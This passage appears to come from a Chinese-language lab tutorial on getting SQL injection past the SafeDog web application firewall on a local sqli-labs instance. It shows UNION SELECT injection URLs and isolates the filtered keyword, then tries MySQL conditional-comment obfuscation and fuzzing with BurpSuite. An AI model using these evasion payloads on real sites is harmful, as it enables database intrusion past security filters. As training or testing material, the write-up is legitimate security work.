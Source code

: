 > 成功绕过
>
> 响应时间 2 秒加 sleep 时间 3 秒，刚好是 5 秒

### 1.2 新版本的安全狗绕过

### 1.2.1 条件注释绕过

提交参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 被拦截

逐个删除字符，得到拦截语法为 `union selec`

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

加条件注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*!11440*//*!11440select*/
```

> 发现依然拦截

### 1.2.1.1 特殊函数爆破

在 BurpSuite 开启拦截

在语句之间的注释添加数字 1，2

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*12*//*!11440select*/
```

在 HackBar 提交

![在 HackBar 提交](./../../../../../../images/SQL%20Injection%20%E5%85%8D%E6%9D%80/%E5%9C%A8%20HackBar%20%E6%8F%90%E4%BA%A4.png)
